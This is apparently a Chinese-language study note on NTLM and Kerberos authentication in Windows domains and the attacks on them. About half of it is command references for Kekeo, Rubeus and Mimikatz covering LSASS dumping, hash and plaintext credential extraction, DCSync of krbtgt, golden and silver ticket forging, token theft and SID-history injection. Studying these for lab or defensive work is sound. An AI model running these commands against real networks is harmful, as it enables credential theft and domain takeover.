




# NTLM   

## NTLM系统认证

winlogon.exe显示登录界面，当我们登录之后，明文密码会交给lsass.exe进程，  
然后进程会给明文密码进行ntlm hash加密随后存储到SAM文件中。  
我们用mimikatz抓取明文密码则是从lsass.exe进程抓取。  

## 域内NTLM协议认证  

  

由三种类型消息组成  

+ Type1（协商，Negotiate）
+ Type2（质询，Challenge）
+ Type3（认证，Authentication）

NTLM有NTLM v1和NTLM v2两个版本，区别是Challenge值与加密算法不同。  
NTLM是底层认证协议，需要依靠上层协议传递消息，如SMB，HTTP等。  
以下是域内NTLM认证步骤：  

1. 当客户端想访问某些网络资源或者请求某些服务时，需要ntlm身份认证。于是，在输入服务器账户和密码之后，客户端存储NTLM hash值，同时向服务器发送请求，该请求会生成Type1消息

2. 经过服务端处理后，会向客户端返回Type2消息，Type2消息包含一个16位随机值（Challenge值）  

3. 客户端收到消息后，用之前存储的NTLM hash作为密钥对challenge值进行加密，之后和username等其他信息一起运算得到response，response中包含Net-NTLM hash，再和其他信息一起封装到Type3消息中发往服务端。  

4. 服务器接收到消息之后通过Netlogon协议与DC域控建立一个安全通道，发往域控。  

5. 域控接受到验证消息之后，将Net-NTLM hash取出来，再将之前的NTLM hash与challenge进行一系列运算得到Net-NTLM hash，然后将两个Net-NTLM hash进行比较，然后发往服务器。

6. 服务端根据域控返回结果，对客户端进行回复。  

## LmCompatibilityLevel  

  

通过修改注册表HKLM\SYSTEM\CurrentControlSet\Control\Lsa\lmcompatibilitylevel来修改响应类型, lmcompatibilitylevel值默认是不存在的，所以我们需要添加值并且自己设置，可以通过regedit.exe修改，也可以命令行修改。  
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f

## 攻击方式  

1. Pass The Hash：可以直接用密码的NTLM hash进行hash传递攻击。  
2. NTLM Relay：第三步获得response获得Net-NTLM hash之后，可以重放Net-NTLM hash进行中间人攻击。  
3. Net-NTLM v1 hash破解：v1加密过程的缺陷，只需要获得Net-NTLM v1 hash，就能破解为NTLM hash。  

第三种方式则是这个靶机的利用方式，Responder抓取的就是Net-NTLM hash，后面再细说，NTHASH可以在[crack.sh](https://crack.sh/getcracking/)进行在线破解。  

# Kerberos  

在Kerberos协议中主要有三个角色：
+ 客户端
+ 服务端：服务端都有唯一的SPN（服务主体名称）
+ 提供认证服务的KDC（密钥分发中心）：通常由DC扮演的角色，向域用户和计算机提供会话票据和会话密钥，服务账户是krbtgt。

访问服务的流程是：向KDC请求一张TGT（认购权证），再用TGT请求ST（服务票据），然后用ST去访问服务。TGT和ST都是KDC发放。  
Kerberos使用88端口进行认证，预验证机制也是这个，464端口进行密码重设。  
Kerberos有两个基础认证模块————AS_REQ & AS_REP和TGS_REQ & TGS_REP，以及微软拓展的两个认证模块S4U和PAC。S4u是实现委派的模块，分为S4u2Self和S4u2Proxy；PAC（特权属性证书）为了解决权限问题。  

## PAC  

KDC在向Kerberos客户端颁发TGT时，会向本地LSA请求生成一个特殊的数据结构，名为“特权访问证书”（Privilege Access Certificate,PAC）,这个PAC包含为Kerberos客户端构建一个本地访问令牌所需的用户信息，他同时使用域控制器服务器的私钥和KDC服务器的私钥来进行数字签署。以防假的伪造PAC。  

服务端收到AP-REQ消息时，会将ST中的PAC签名发送给KDC校验（这需要服务端开启这个服务，默认未开启），因此无需发送给KDC进行校验，这也是白银票据攻击成功的前提。  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerbreos\Parameters下面添加一个VaildateKdcPacSignature键值(DWord类型)，为0不开启KDC校验PAC，为1开启。  

PAC开启之后，客户端访问服务端只需包含PAC的请求即可直接访问服务端，而无需每次都像KDC请求。

## Kerberos认证流程  

  

### 1.AS-REQ  

Pre-Authentication（预认证），用户hash加密时间戳作为value发送给KDC的AS（Authentication Service），KDC使用用户hash解密，如果正确且时间在有效范围内，则认证成功。并且可以选择返回的TGT是否携带PAC。预认证可以判断有效用户名和hash。  

### 2.AS-REP  

AS-REP包中包含两个重要信息：TGT和Logon Session Key。还有PAC信息。
1. TGT中的加密部分时krbtgt的hash加密的，因此如果我们有krbtgt的hash则可以自己做一个ticket，这就是黄金票据攻击。TGT中也包含Logon Session Key。
2. 使用用户密钥加密，包含一些认证时间信息。

### 3.TGS-REQ  

带有TGT和Session key去向KDC的TGS服务请求ST票据，并且指定访问的服务SPN（在域环境中，某个服务需要以Kerberos身份进行认证，需要注册一个SPN）

### 4.TGS-REP  

KDC收到TGS-REQ时会用krbtgt的hash解密TGT中加密部分，得到Logon Session Key和PAC等信息，解密成功说明是KDC颁发，验证PAC的签名证明PAC未被修改，最后解密时间戳信息证明在有效时间内，无论权限，只要TGT正确均会返回ST。  

ST中包含请求的服务名sname，域名realm等。加密部分由服务密钥加密，主要包含Server Session Key，认证时间等信息。ST中的PAC信息和TGT中信息是一致的。  

Server Session Key是由Logon Session Key加密，包含认证时间等信息。  

### 5.AP-REQ  

客户端收到TGS回复后用缓存的Logon Session Key进行解密Server Session Key。ST和Server Session Key被缓存在客户端，访问服务（Application Server）时，发起AP-REQ请求。这个请求包括ST和Server Session Key加密的时间戳。  

### 6.AP-REP  

这一步是可选的，如图简述。  

## S4uSelf & S4uProxy  

S4uSelf可以代表任意用户请求针对自身的服务票据;S4uProxy可以用上一步获得的ST以用户名义请求针对其他服务的ST。

## 攻击方式  

  

1. PTH和PTK：获得了用户密码hash时，发起AS-REQ造成PTH攻击；获得用户密码的AES-Key时，发起AS-REQ会造成PTK攻击。AS-REQ用户请求TGT时，使用密码hash或者加密密钥加密时间戳，加密方式有DES，AES，RC4等，取决于windows版本和Kerberos配置。如果我们有任意一个密钥即可不使用密码请求TGT，这就是PTK。
2. 用户枚举：AS-REQ包中的cname字段代表用户名，这个值存在和不存在，返回的包不一样，这就是利用预验证判断用户，可以进行枚举有效用户名以及用户名。
3. 密码喷洒是用固定的密码去爆破用户名。
4. 黄金/白银票据：AS-REP阶段有krbtgt的hash可以自制TGT，这个票据也叫黄金票据。TGS-REP阶段有服务hash就可以签发任意用户ST，这个票据叫白银票据。
5. AS-REP Roasting：如果域用户设置了“Do not require Kerberos preauthentication”（不需要预验证）选项，那么在AS-REQ阶段，域控不会做任何验证就发放TGT和用户hash加密Logon Session Key，这样就可以离线破解得到用户密码明文，这是AS-REP Roasting攻击。
6. Kerberoasting：由于ST是服务hash加密的，我们获得ST之后就能破解得到服务hash。


# 工具使用  

## Kekeo  

Kekeo是一个针对Kerberos协议进行攻击的工具。Kekeo和Mimikatz有两种使用方式，一种是直接运行进入交互式shell，还有一种是例如：Kekeo.exe "xxx"。  
输入任意命令会提示错误，并列举Standard模块的命令；输入aa::bb这样格式的命令会报错，然后提示一些可供选择的模块。  
base64 /input:on和base64 /output:on 是支持base64格式的输出命令，off为不支持，在与rebeus配合利用会用到这个功能。  

### 申请TGT  

/ptt是请求TGT之后并将其导入到内存，如果不这样做就会生成.kirbi后缀的票据。  

```C
tgt::ask /user:administrator /domain:jevon.com /password:passwd /ptt
```

使用hash请求  

```C
tgt::ask /user:administrator /domain:jevon.com /ntlm:asdasdasdasdasdas /ptt
```  

使用mimikatz导入票据  

```C
mimikatz.exe "kerberos::ptt xxxx.kirbi"
```  

### 申请ST  

在这之前已经有TGT票据文件，这里hostname就是主机名，这种形式表示域内主机  

```C
tgt::ask /tgt:xxxxx.kirbi /service:cifs/hostname.jevon.com /ptt
```

由于使用的是CIFS服务，所以无法使用mimikatz的DCSync功能导出域用户的hash，LDAP服务则可以，申请LDAP服务ST之后：  

```C
mimikatz.exe "lsadump::dcsync /domain:jevon.com /user:krbtgt /csv" "exit"
```

## Rubeus  

这个相当于Kekeo的升级版，但和Kekeo、Mimikatz又有点不同  

### 申请TGT  

使用asktgt请求TGT，主要有以下参数  

+ /user:USER
+ /password:PASSWORD[/enctype:DES|RC4|AES128|AES256]
+ /aes256:HASH
+ /domain:DOMAIN
+ /dc:DOMAIN_CONTROLLER
+ /outfile:FILENAME
+ /nowrap 打印出的base64格式票据显示更友好
+ /ptt
  
请求TGT保存为ticket.kirbi，并导入内存，如果不导出文件就是以base64格式打印  

```C
rubeus.exe asktgt /user:administrator /password:password /nowrap /ptt /outfile:ticket.kirbi
```

rubeus导入ticket，base64格式或者文件  

```C
rubeus.exe ptt:BASE64|xxx.kirbi
```

hash请求  

```C
rubeus.exe asktgt /user:administrator /rc4:asdasdasdasd /enctype:RC4 /nowrap /ptt /outfile:ticket.kirbi
```

### 申请ST  

asktgs模块，跟asktgt模块参数差不多，有以下不同：  

+ /ticket:BASE64 | /ticket:xxx.kirbi
+ /service:SPN1,SPN2

已经获得TGT之后，请求LDAP的ST,ticket可以用base64，也可以用文件  

```C
rubeus.exe asktgs /service:"ldap:/hostname.jevon.com" /nowrap /ptt /ticket:xxx.kirbi
```

### AS-REP Roasting  

AS-REP包中用户hash加密的Login Session Key以John能破解的格式保存  

```C
rubeus.exe asreproast /format:john /outfile:hash.txt
```

### Kerberoasting

原理在于先用LDAP查询域内具有SPN的账户，再发送TGS包，抓取返回的TGS-REP包，然后破解，下面是随机请求  

```C
rubeus.exe kerberoast /format:john /outfile:hash.txt
```

请求指定SPN的服务票据  

```C
rubeus.exe kerberoast /spn:SQLServer/hostname.jevon.com:1433/MSSQL /format:john /outfile:hash.txt
```

但是这获得的hash并不能直接破解，要在指定位置加上$23，后面细说，rubeus还可以进行委派攻击，也后面细说  

## Mimikatz  

这个工具用于从内存提取明文密码、密码hash、PIN码和Kerberos票据等。standard模块和kekeo差不多，其他模块最常用的是privilege、sekurlsa、kerbreos、lsadump、token、sid等  

### privilege  

提权模块，提权到调试内核权限，所以能够读取内存，需要管理员控制台窗口才能执行成功命令。  

```C
privilege::debug
```

### sekurlsa模块  

枚举凭据的命令，这些我在win11上运行报错 “ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list”，网上说是mimikatz版本太旧了，我尝试了github上最新版本还是不行，但是在win server 2012 上可以运行成功。  

```Py
#只抓取内存中保存的明文密码
sekurlsa::wdigest
#只抓取内存中保存的用户hash
sekurlsa::msv
#只抓取内存中保存的用户密码的key值
sekurlsa::ekeys
#抓取内存中保存的用户所有凭据
"sekurlsa::logonpasswords"
#加载dmp文件，并导出其中明文密码
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::mimidmp lsass.dmp
sekurlsa::logonpasswords full
#导出lsass.exe进程中的所有票据
sekurlsa::tickets /export
sekurlsa::pth /user:USER /domain:jevon.com /ntlm:dasdasdasd
```

关于抓取明文密码，从windows server 2012开始不能直接抓取，只能抓取hash，是因为微软的某个补丁关闭了WDigest Auth，所以没有明文密码的存储，具体的请看其他文章。  

### kerberos模块  

```Py
#查看内存中的tgt
kerberos::tgt
#查看内存中的所有票据
kerberos::list
#查看票据位置
kerberos:ptc
#清楚票据
kerberos::purge
#将票据注入到内存
kerberos::ptt xx.kirbi
#金票攻击
kerberos::golden /user:要伪造的用户 /domain:DOAMIN /sid:域的sid值 /krbtgt:这个账户的hash或key /ptt
#银票攻击
kerberos::golden /user:要伪造的用户 /domain:DOAMIN /sid:域的sid值 /target:服务机器域名或ip /service:服务 /rc4:服务账户hash /ptt
```

### lsadump模块

该模块是对Local Security Authority（LSA安全身份验证进程）进行密码抓取的模块  

```Py
#通过域同步导出指定用户的hash，格式化输出，/all则是导出所有用户hash
lsadump::dcsync /domain:jevon.com /user:krbtgt /csv
#读取所有域用户hash，需要在域控上以管理员权限打开窗口
lsadump:lsa /patch
#从sam.hive和system.hive中获取ntlm hash
reg save hklm\sam sam.hive
reg save hklm\system system.hive
lsadump::sam /sam:sam.hive /system:system.hive
#从本地SAM文件读取hash
privilege::debug
token::elevate
lsadump::sam
```

### token模块

与访问令牌相关的模块

```Py
#列出当前token信息
token::whoami /full
#列出当前系统存在的token，高权限列出的最全面
token::list
#窃取指定token id的token
token::elevate /id
#窃取System的token
token::elevate /system
#窃取域管理员的token
token::elevate /domainadmin
#窃取本地管理员的
token::elevate /admin
#窃取local service权限的token
token::elevate /localservice
#窃取network service权限的token
token::elevate /networkservice
#恢复之前的token
token::revert
```

### sid模块  

```Py
#查询指定对象的sid
sid::lookup /name:test
#查询指定sid对应的对象
sid::lookup /sid:x-x-x-x-x
=======================================
#通过samaccountname属性查询对象的一些信息
sid::query /sam:test
#通过samAccountName属性修改对象的sid
sid::patch
sid::modify /sam:test /new:x-x-x-x-x
#通过samAccountName属性给对象添加一个sid history属性
sid::patch
sid::add /sam:test /new:x-x-x-x-x-x-x
#清楚对象的sid history属性
sid::clear /sam:test
"还可以通过sid操作对象信息，将/sam参数换成/sid即可"
=======================================
#将administrator的sid添加到test的sid history中
sid::add /sam:test /new:administrator
```

## Impacket

